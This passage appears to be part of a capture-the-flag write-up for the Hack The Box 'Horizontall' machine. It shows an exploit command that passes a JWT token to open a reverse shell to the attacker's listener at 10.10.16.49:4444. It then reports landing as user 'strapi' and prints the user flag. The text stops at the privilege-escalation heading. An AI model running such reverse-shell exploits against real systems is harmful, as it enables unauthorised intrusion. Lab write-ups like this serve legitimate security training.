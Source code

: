 ### Get Reverse shell by the payload which needs jwt token

- So, I used the second payload to get the reverse shell which can return the result of command 

- The second payload needs the jwt token to make the reverse shell success to connect 
```
# python3 exploit.py -d api-prod.horizontall.htb -jwt <jwt token from first payload> -l 10.10.16.49 -p 4444
```

![](./IMG/17.png)
- The nc in attacker's server get the reverse shell

![](./IMG/18.png)

### Get user flag

- After getting into the victim server, I got the low permission control (user : strapi)
- We can move to the user(developer) directory, and get the flag from ```user.txt```.

- Get flag : ```7c6683a7c20ec9be3b4ca5332a6277d0```

![](./IMG/19.png)

## Privilege Escalation 
